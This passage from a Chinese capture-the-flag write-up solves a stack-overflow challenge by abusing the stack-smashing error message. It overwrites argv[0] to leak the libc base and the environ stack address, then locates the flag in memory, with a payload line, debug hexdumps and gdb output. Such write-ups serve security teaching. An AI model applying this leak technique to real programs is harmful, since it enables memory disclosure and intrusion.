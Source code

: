 ```python
```
泄露出 libc 基址为 0x7ffff7a0d000。
```python
[DEBUG] Received 0x7a bytes:
    00000000  59 6f 75 20  73 68 6f 75  6c 64 20 74  61 6b 65 20  │You │shou│ld t│ake │
    00000010  6d 6f 72 65  20 65 66 66  6f 72 74 20  74 6f 20 67  │more│ eff│ort │to g│
    00000020  65 74 20 73  69 78 20 73  65 6e 63 65  2c 20 61 6e  │et s│ix s│ence│, an│
    00000030  64 20 6f 6e  65 20 6d 6f  72 65 20 63  68 61 6c 6c  │d on│e mo│re c│hall│
    00000040  65 6e 67 65  21 21 0a 2a  2a 2a 20 73  74 61 63 6b  │enge│!!·*│** s│tack│
    00000050  20 73 6d 61  73 68 69 6e  67 20 64 65  74 65 63 74  │ sma│shin│g de│tect│
    00000060  65 64 20 2a  2a 2a 3a 20  40 d7 a2 f7  ff 7f 20 74  │ed *│**: │@···│·· t│
    00000070  65 72 6d 69  6e 61 74 65  64 0a                     │ermi│nate│d·│
    0000007a
libc_base_addr = 0x7ffff7a0d000
```

### 2）泄露 environ
构造以下 payload，第二次利用栈溢出将 argv[0] 覆盖为 `environ` 的地址，从而泄露出 `environ` 的值，该值为执行环境变量的栈地址。
```python
environ_addr = libc_base_addr + libc.symbols['_environ']
payload1 = 'A' * 0x128 + p64(environ_addr)
```
泄露出 `environ` 的值为 0x7fffffffdcf8。
```python
[DEBUG] Received 0x7a bytes:
    00000000  59 6f 75 20  73 68 6f 75  6c 64 20 74  61 6b 65 20  │You │shou│ld t│ake │
    00000010  6d 6f 72 65  20 65 66 66  6f 72 74 20  74 6f 20 67  │more│ eff│ort │to g│
    00000020  65 74 20 73  69 78 20 73  65 6e 63 65  2c 20 61 6e  │et s│ix s│ence│, an│
    00000030  64 20 6f 6e  65 20 6d 6f  72 65 20 63  68 61 6c 6c  │d on│e mo│re c│hall│
    00000040  65 6e 67 65  21 21 0a 2a  2a 2a 20 73  74 61 63 6b  │enge│!!·*│** s│tack│
    00000050  20 73 6d 61  73 68 69 6e  67 20 64 65  74 65 63 74  │ sma│shin│g de│tect│
    00000060  65 64 20 2a  2a 2a 3a 20  f8 dc ff ff  ff 7f 20 74  │ed *│**: │····│·· t│
    00000070  65 72 6d 69  6e 61 74 65  64 0a                     │ermi│nate│d·│
    0000007a
stack_addr = 0x7fffffffdcf8
```
可在 gdb 中验证该值为正确的。
```python
gdb-peda$ print environ
$1 = (char **) 0x7fffffffdcf8
gdb-peda$ telescope 0x7fffffffdcf8
0000| 0x7fffffffdcf8 --> 0x7fffffffe0ea ("INSTANCE=")
0008| 0x7fffffffdd00 --> 0x7fffffffe0f4 ("MANDATORY_PATH=/usr/share/gconf/ubuntu.mandatory.path")
0016| 0x7fffffffdd08 --> 0x7fffffffe12a ("ALL_PROXY=socks://192.168.239.1:1080/")
       ...
```

### 3）读取 flag
查看内存中 flag 的地址为 0x7fffffffdb90，计算该地址与泄露栈地址的偏移量为 0x168（0x7fffffffdcf8 - 0x7fffffffdb90）。
```python
gdb-peda$ stack 20                                                                                                                                             
0000| 0x7fffffffdb08 --> 0x7ffff7a875e8 (<_IO_new_file_underflow+328>:  cmp    rax,0x0)
0008| 0x7fffffffdb10 --> 0x7ffff7dd3780 --> 0x0 
     ...
0088| 0x7fffffffdb60 --> 0x7fffffffdce8 --> 0x7fffffffe0e2 --> 0x73736575672f2e ('./guess')
0096| 0x7fffffffdb68 --> 0x100000000 
0104| 0x7fffffffdb70 --> 0x8600000000 
0112| 0x7fffffffdb78 --> 0x3 
0120| 0x7fffffffdb80 --> 0x2 
0128| 0x7fffffffdb88 --> 0x3 
0136| 0x7fffffffdb90 ("flag{43861991f7e943090e257863eec75961}\n")
     ...
```